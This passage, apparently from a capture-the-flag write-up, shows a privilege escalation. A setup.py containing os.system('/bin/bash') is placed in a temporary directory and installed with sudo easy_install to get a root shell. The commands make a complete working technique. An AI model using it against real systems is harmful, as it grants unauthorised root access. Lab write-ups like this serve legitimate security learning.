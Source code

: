 ```
                             installed
  --user                     install in user site-package
                             '/root/.local/lib/python2.7/site-packages'

usage: easy_install [options] requirement_or_url ...
   or: easy_install --help
```

It can take a URL (so I could host something malicious on my machine and fetch it), but it can also just take a directory. I’ll create a directory:
```
mkdir /tmp/wither
cd /tmp/wither
echo -e 'import os\n\nos.system("/bin/bash")' > setup.py

Then just exploit it.
sudo /usr/local/bin/easy_install /tmp/wither
```

Then we can get the root shell.

